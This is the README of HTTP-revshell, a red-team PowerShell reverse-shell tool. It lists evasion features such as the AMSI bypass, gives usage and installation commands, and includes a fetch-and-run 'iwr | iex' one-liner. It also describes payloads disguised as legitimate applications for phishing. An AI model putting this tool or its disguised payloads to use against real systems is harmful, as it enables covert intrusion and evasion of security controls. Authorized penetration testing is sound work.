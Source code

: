 # Powershell HTTP/S Reverse Shell

[![Category-tool]]() [![Powershell]]() [![Python]]() [![License]]()

HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol. It use a covert channel to gain control over the victim machine through web requests and thus evade solutions such as IDS, IPS and AV.

<p align="center"><img width=400 alt="HTTP-revshell" src="https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/images/logo.png"></p>

## Help server.py (unisession server)
Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

Process some integers.

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

## Help Invoke-WebRev.ps1 (client)
Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

## Installation
```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

## Quick start server-multisession.py (multisession server)

```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

## Features
 - SSL
 - Proxy Aware
 - Upload Function
 - Download Function
 - Error Control
 - AMSI bypass
 - Multiple sessions [only server-multisession.py]
 - Autocomplete PowerShell functions (optional) [only server.py]
    
## Extra functions usage
### Upload
 - upload /src/path/file C:\dest\path\file
### Download
 - download C:\src\path\file /dst/path/file

## Help Revshell-Generator.ps1 (Automatic Payload Generator)
This script allows you to create an executable file with the payload necessary to use *HTTP-revshell*, you just need to follow the instructions on the screen to generate it. There are 6 predefined templates and a customizable one, with the data that you like.

The payloads generated by the tool, incorporate the legitimate icon of the application, as well as the product and copyright information of the original application. In addition, each of them opens the original application before establishing the connection with the server, pretending to be a legitimate application. This can be used for phishing or Red Team exercises.

Payload Generator usage:
```
iwr -useb https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/Revshell-Generator.ps1 | iex
```
![Revshell-Generator](/images/generator.gif)

## Credits
 - [JoelGMSec] for his awesome Revshell-Generator.ps1. Twitter: [@JoelGMSec]
 - [dev-2null] for report the first bug. Twitter: [@dev2null]

## Disclaimer & License
This script is licensed under LGPLv3+. Direct link to [License](https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/LICENSE).

HTTP-revshell should be used for authorized penetration testing and/or nonprofit educational purposes only. 
Any misuse of this software will not be the responsibility of the author or of any other collaborator. 
Use it at your own servers and/or with the server owner's permission.

<!-- Twitter URLs -->
[@JoelGMSec]: https://twitter.com/JoelGMSec
[@dev2null]: https://twitter.com/dev2nulI

<!-- Github URLs -->
[JoelGMSec]: https://github.com/JoelGMSec
[dev-2null]: https://github.com/dev-2null

<!-- Badge URLs -->
[License]: https://img.shields.io/badge/License-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273134&colorB=006bbd "LGPL v3+"
[Category-tool]: https://img.shields.io/badge/Category-Post%20Exploitation-E5A505?style=flat-square&colorA=273134
[Powershell]: https://img.shields.io/badge/Powershell-3.0%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000
[Python]: https://img.shields.io/badge/Python-3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff6f00
